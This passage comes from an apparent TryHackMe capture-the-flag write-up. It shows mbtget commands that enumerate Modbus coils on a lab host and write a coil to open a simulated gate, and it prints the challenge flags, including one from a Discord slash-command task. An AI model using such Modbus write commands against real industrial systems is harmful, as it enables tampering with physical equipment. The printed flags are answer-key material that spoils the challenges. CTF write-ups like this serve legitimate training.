 #### 5. **Enumerated coils (0-40) to identify potential triggers**

```bash
mbtget -r1 -u 1 -a 0 -n 40 10.10.6.209
```

✔️ Found coils 20 and 25 were **1**, others **0**.

---

#### 6. **Tested candidate gate trigger (coil 30)**

```bash
mbtget -w5 1 -u 1 -a 30 10.10.6.209
```

✅ **Gate opened**, revealing flag:

```
THM{s4v3_th3_d4t3_27_jun3}
```

---

### 💡 **Lessons Learned**

* Modbus logic often separates **preconditions (badge/motion)** from **action triggers (gate open coil)**.
* Always scan for unreferenced coils when flows don’t deploy expected actions.

---

## 📝 **Task 4 – Discord** {#task-4--discord}

### 🗂️ **Category:** Discord

### 🎯 **Difficulty:** Beginner

### 🏷️ **Flag:** THM{D15C0RD\_57A5H\_C0MM4ND5}

---

### 🔍 **Step-by-Step Walkthrough**

#### 1. **Joined challenge Discord server.**

#### 2. **Executed slash command to retrieve flag:**

```
/secret-function
```

✅ Returned:

```
THM{D15C0RD_57A5H_C0MM4ND5}
```

---